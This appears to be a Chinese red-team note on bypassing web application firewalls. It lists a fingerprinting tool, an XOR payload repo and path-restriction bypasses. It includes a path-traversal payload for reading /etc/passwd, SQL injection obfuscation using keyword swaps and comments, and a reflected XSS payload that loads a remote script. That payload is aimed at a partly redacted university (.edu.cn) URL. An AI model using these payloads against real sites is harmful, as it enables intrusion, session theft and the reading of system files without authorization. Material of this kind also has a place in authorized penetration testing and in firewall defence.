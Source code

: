 **工具**
- [EnableSecurity/wafw00f: WAFW00F allows one to identify and fingerprint Web Application Firewall (WAF) products protecting a website.](https://github.com/EnableSecurity/wafw00f) - 识别waf指纹的工具

**导图**
- WAF绕过思路 [png](../../../../assets/img/安全/笔记/RedTeam/安防设备总结/WAF绕过思路.png)

**payload**
- [devploit/XORpass](https://github.com/devploit/XORpass#example-of-bypass) - 使用XOR编码器绕过 WAF

---

## 路径限制绕过

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过.

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

例如连续两个 `../` 会被拦截,可以尝试采用 `./`,例如存在关键词,可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

---

## 匹配绕过

**关键字替换**

1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能,因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```
